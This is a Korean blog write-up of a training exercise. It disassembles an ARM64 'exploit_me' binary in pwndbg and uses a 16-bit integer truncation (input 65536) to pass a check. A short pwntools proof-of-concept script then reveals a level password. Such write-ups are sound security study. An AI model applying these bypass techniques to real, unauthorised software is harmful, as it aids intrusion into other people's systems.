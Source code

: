 ```yaml
---
title: "[pwnable] ARM exploit 정리"
excerpt: "exploit_me"

categories:
  - pwn
tags:
  - [pwnable, exploit]

permalink: /pwn/exploit_me/

toc: true
toc_sticky: true

date: 2024-12-18
last_modified_at: 2024-12-18
---
```


github에 arm exploit을 정리하기에 좋은 예제가 있어서 이를 이용해서 정리해보고자 합니다.

👉🏻 [exploit_me](https://github.com/bkerler/exploit_me.git)

m1 mac에서 진행하지만 pwnable 환경 자체가 linux x64 환경이기 때문에 qemu를 이용하여 진행하였습니다.

👉🏻 [qemu 정리](https://parkhoho.github.io/pwn/qemu/)

## ☝🏻 정수 오버플로우
main을 disassemble해보면 int_overflow 함수를 찾을 수 있다.

이 함수가 level2 password의 힌트다.
> 참고로 level1 password의 경우 바이너리를 실행시키면 찾을 수 있다.

```
qemu-aarch64-static -L /usr/aarch64-linux-gnu/ -g 8888 ./exploit64 hello 11111
```

11111이라는 값을 줬고, 이 11111을 어떻게 처리하는지 살펴보자.



```asm
0x0000000000401490 <+0>:	stp	x29, x30, [sp, #-48]!
0x0000000000401494 <+4>:	mov	x29, sp
0x0000000000401498 <+8>:	str	x0, [sp, #24]
0x000000000040149c <+12>:	ldr	x0, [sp, #24]
0x00000000004014a0 <+16>:	bl	0x4171b8 <atoi>
0x00000000004014a4 <+20>:	str	w0, [sp, #44]
0x00000000004014a8 <+24>:	ldr	w0, [sp, #44]
0x00000000004014ac <+28>:	str	w0, [sp, #40]
0x00000000004014b0 <+32>:	ldr	w0, [sp, #40]
0x00000000004014b4 <+36>:	cmp	w0, #0x0
0x00000000004014b8 <+40>:	b.ne	0x4014d0 <_Z12int_overflowPc+64>  // b.any
0x00000000004014bc <+44>:	adrp	x0, 0x470000 <_nl_archive_subfreeres+104>
0x00000000004014c0 <+48>:	add	x0, x0, #0x7e8
0x00000000004014c4 <+52>:	bl	0x425e30 <puts>
0x00000000004014c8 <+56>:	mov	w0, #0x0                   	// #0
0x00000000004014cc <+60>:	bl	0x417b30 <exit>
0x00000000004014d0 <+64>:	ldr	w0, [sp, #44]
0x00000000004014d4 <+68>:	strh	w0, [sp, #38]
0x00000000004014d8 <+72>:	ldrh	w0, [sp, #38]
0x00000000004014dc <+76>:	cmp	w0, #0x0
0x00000000004014e0 <+80>:	b.eq	0x401500 <_Z12int_overflowPc+112>  // b.none
0x00000000004014e4 <+84>:	ldrh	w0, [sp, #38]
0x00000000004014e8 <+88>:	mov	w1, w0
0x00000000004014ec <+92>:	adrp	x0, 0x470000 <_nl_archive_subfreeres+104>
```


int_overflow의 disassemble한 코드다.

1. `stp x29,x30,[sp,#-48]!` `mov x29,sp`를 통해 스택 정리
2. `str x0,[sp,#24]`,`ldr x0,[sp,#24]`를 통해 값을 가져온다.
3. atoi를 이용하여 값을 읽음
4. 이 값을 0과 비교하여 같지 않으면 첫번째 branch를 통가하게 된다.(같으면 exit)
5. 이후 다시 재배열한 값을 가져와서 0과 같으면 jmp 한다.(0과 같지 않으면 exit)
6. 즉, 입력한 값이 0이거나 0보다 작아야 한다.


이때 11111를 통해 내부에서 어떤 결과가 나오는지 확인해보자.


```bash
b *int_overflow
c
```

이때 나오는 결과는 아래와 같다.

```assembly
  0x401490 <int_overflow(char*)>       stp    x29, x30, [sp, #-0x30]!       <main+224>
  0x401494 <int_overflow(char*)+4>     mov    x29, sp
  0x401498 <int_overflow(char*)+8>     str    x0, [sp, #0x18]
  0x40149c <int_overflow(char*)+12>    ldr    x0, [sp, #0x18]
  0x4014a0 <int_overflow(char*)+16>    bl     #atoi                     <atoi>

  0x4014a4 <int_overflow(char*)+20>    str    w0, [sp, #0x2c]
  0x4014a8 <int_overflow(char*)+24>    ldr    w0, [sp, #0x2c]
  0x4014ac <int_overflow(char*)+28>    str    w0, [sp, #0x28]
  0x4014b0 <int_overflow(char*)+32>    ldr    w0, [sp, #0x28]
  0x4014b4 <int_overflow(char*)+36>    cmp    w0, #0
  0x4014b8 <int_overflow(char*)+40>    b.ne   #int_overflow(char*)+64                     <int_overflow(char*)+64>
  ...
```


이때 아까 설명한 조건들을 우회하기 위해 breakpoint를 다음과 같이 준다.
```
b *int_overflow+40
b *int_overflow+80
b *int_overflow+120
```


continue 한 후에 w0의 값을 확인해보자.

```bash
c
```

```bash
pwndbg> info r w0
w0             0x2b67              11111
```


즉 w0에는 11111의 hex값인 0x2b67이 들어가 있다.


따라서 w0이 0보다 크기 때문에 jmp를 하게 된다.

다음 조건으로는 그 값을 다시 가져와 0과 비교를 하게 된다.


이때 w0은 아까와 마찬가지로 0x2b67이 들어가있기 때문에 jmp를 하지 못한다.


따라서 다음과 같이 printf()와 exit를 만나 프로그램이 종료가 된다.

```assembly
0x4014e4 <int_overflow(char*)+84>     ldrh   w0, [sp, #0x26]
 ► 0x4014e8 <int_overflow(char*)+88>     mov    w1, w0
   0x4014ec <int_overflow(char*)+92>     adrp   x0, #_nl_archive_subfreeres+104 <0x470000>
   0x4014f0 <int_overflow(char*)+96>     add    x0, x0, #0x810
   0x4014f4 <int_overflow(char*)+100>    bl     #printf                     <printf>

   0x4014f8 <int_overflow(char*)+104>    mov    w0, #0
   0x4014fc <int_overflow(char*)+108>    bl     #exit                     <exit>
```

즉, 원하는 값을 얻기 위해서는 w0에 0을 넣어야 한다.
하지만 입력값에 0을 넣게 되면 password를 얻지 못하기 때문에 다른 방식을 사용해야 한다.

## 해결방법
다음은 int_overflow의 동작과정 중 하나이다.

이때 `strh`와 `ldrh` 명령어를 통해 w0에 특정 값을 저장하고 있는 것을 확인할 수 있다.

```assembly
0x4014d0 <int_overflow(char*)+64>    ldr    w0, [sp, #0x2c]
0x4014d4 <int_overflow(char*)+68>    strh   w0, [sp, #0x26]
0x4014d8 <int_overflow(char*)+72>    ldrh   w0, [sp, #0x26]
► 0x4014dc <int_overflow(char*)+76>    cmp    w0, #0
0x4014e0 <int_overflow(char*)+80>    b.eq   #int_overflow(char*)+112                     <int_overflow(char*)+112>
```

`strh`과 `ldrh`는 halfword 크기만큼을 저장하고 로드하는 명령어다.


그렇기에 2^16 값을 넣게 된다면 0이 저장되게 된다.


다음은 2^16을 입력으로 하여 바이너리를 분석한 결과다.

```
pwndbg> b *int_overflow+80
```

```
0x4014cc <int_overflow(char*)+60>     bl     #exit                     <exit>

   0x4014d0 <int_overflow(char*)+64>     ldr    w0, [sp, #0x2c]
   0x4014d4 <int_overflow(char*)+68>     strh   w0, [sp, #0x26]
   0x4014d8 <int_overflow(char*)+72>     ldrh   w0, [sp, #0x26]
   0x4014dc <int_overflow(char*)+76>     cmp    w0, #0
 ► 0x4014e0 <int_overflow(char*)+80>     b.eq   #int_overflow(char*)+112                     <int_overflow(char*)+112>
    ↓
   0x401500 <int_overflow(char*)+112>    ldr    w0, [sp, #0x2c]
   0x401504 <int_overflow(char*)+116>    cmp    w0, #0
   0x401508 <int_overflow(char*)+120>    b.lt   #int_overflow(char*)+136                     <int_overflow(char*)+136>

   0x40150c <int_overflow(char*)+124>    ldrh   w0, [sp, #0x26]
   0x401510 <int_overflow(char*)+128>    cmp    w0, #0
```

```bash
pwndbg> info r w0
w0             0x0                 0
```

## PoC
Expoit Code를 제작해보자.
```python
~
"exploit.py" 15L, 317B                                        7,0-1         All
from pwn import *

def lv1():
    args_lv1 = "65536"
    p = process(['./exploit64', 'hello', args_lv1])
    print(p.recvline())

if __name__ == "__main__":
    lv1()
```
```bash
hoho@hoho:~/exploit_me/bin$ python3 ./exploit.py
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/hoho/.cache/.pwntools-cache-3.12/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] You have the latest version of Pwntools (4.13.1)
[+] Starting local process './exploit64': pid 1515
b'Level 2 Password: "help"\n'
[*] Stopped process './exploit64' (pid 1515)
```

위와 같이 Level 2 Password를 확인할 수 있다.
